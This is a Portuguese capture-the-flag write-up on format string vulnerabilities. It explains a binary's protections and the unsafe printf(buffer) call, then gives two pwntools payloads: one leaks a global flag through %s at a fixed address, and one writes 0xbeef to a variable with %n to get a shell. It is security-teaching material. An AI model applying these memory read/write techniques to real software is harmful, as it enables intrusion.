





# CTF7 - Format String Vulnerability

## Desafio 1

Primeiro analisamos as vulnerabilidades do binário dado:



Conseguimos ver que o Stack Canary está ativado portanto qualquer stack overflow não é pratico ou mesmo impossível. O NX está ativado ou seja a Stack não é executável. O PIE está desativado ou seja, os endereços do binário ou da stack vão ser sempre iguais, o que vai ser útil daqui a pouco.

Ao analisar o código conseguimos ver uma vulnerabilidade de format string nas seguintes linhas:
```c
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);
```

Também conseguimos ver que a flag não está definida na stack mas sim definida globalmente, ou seja, na parte `.bss` do ficheiro. Para descobrir o endreço podemos usar o gdb:



Assim conseguimos criar a nossa format string que lê este endereço de memória:

```python
p.recvuntil(b"got:")

payload = (0x804c060).to_bytes(4, byteorder='little') + b"%s"

p.sendline(payload)
p.interactive()
```

Ao correr este exploit obtemos a flag:




## Desafio 2


O segundo desafio é parecido ao primeiro, só que em vez de obter uma string precisamos de escrever para a variável `key` o decimal `0xbeef` para obtermos uma shell. O programa têm as mesmas permissões que o progrma do pimeiro desafio.

Assim, obtemos o endereço da key:



No entanto, não existe uma maneira direta de escrever um decimal num endereço arbritário usando o `printf`. Podemos usar o `%n` como uma forma indireta de escrever para um endereço. O `%n` conta o número de bytes escritos até agora. Portanto só é necessário escrever `0xbeef - 4` bytes para obter `0xbeef`.

Assim obtemos o payload abaixo:

```python

p.recvuntil(b"here...")

beef = b'%' + bytes(str(0xbeef - 4), encoding='ascii') + b'x'

payload = (0x0804b324).to_bytes(4, byteorder='little') + beef + b"%1$n"

p.sendline(payload)
p.interactive()
```

E obtemos a shell, que assim permite-nos obter a flag:

